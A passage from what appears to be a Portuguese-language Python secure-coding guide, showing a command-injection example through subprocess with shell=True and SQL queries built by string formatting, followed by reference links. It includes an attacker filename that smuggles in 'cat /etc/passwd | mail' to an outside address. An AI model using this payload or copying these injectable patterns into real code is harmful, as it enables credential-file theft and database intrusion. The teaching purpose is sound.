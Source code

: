 def transcode_file(request, filename): 
  command = 'ffmpeg -i "{source}" output_file.mpg'.format(source = filename) 
  subprocess.call(command, shell = True) # a bad idea! 
</pre>
</P>

<p>
O atacante define o nome do arquivo como no exemplo abaixo ou algo igualmente perigoso. <pre>"; cat /etc/passwd | mail gameover@0x00.com </pre>
</p>

#### Injeção de SQL:

<p>
<pre>
cursor.execute("SELECT admin FROM users WHERE username = '" + username + '");
cursor.execute("SELECT admin FROM users WHERE username = '%s' % username);
cursor.execute("SELECT admin FROM users WHERE username = '{}'".format(username));
cursor.execute(f"SELECT admin FROM users WHERE username = '{username}'");
</pre>
</p>
</div>

- - -

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [SHlex — Simple lexical analysis](https://docs.python.org/3/library/shlex.html#shlex.quote)

* [The Command Injection Series](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)

* [Preventing SQL Injection Attacks With Python](https://realpython.com/prevent-python-sql-injection/)

</i>


- - -

<h4><strong>Créditos</strong></h4>
<i>

* [O Tao do Desenvolvimento Seguro](https://github.com/lopes/seguranca)

* [Poison Packages in Python](https://blog.sqreen.com/poison-packages-in-python/)

* [Top 10 Python security best practices](https://blog.sqreen.com/top-10-python-security-best-practices/)

* [Dicas para criar uma boa imagem Docker com Python](https://www.reimberg.io/dicas-para-criar-uma-boa-imagem-docker-com-python/)

* [10 pegadinhas comuns de segurança em Python e como evitá-las](https://www.agatetepe.com.br/10-pegadinhas-comuns-de-seguranca-em-python-e-como-evita-las/?amp)


</i>
</div>
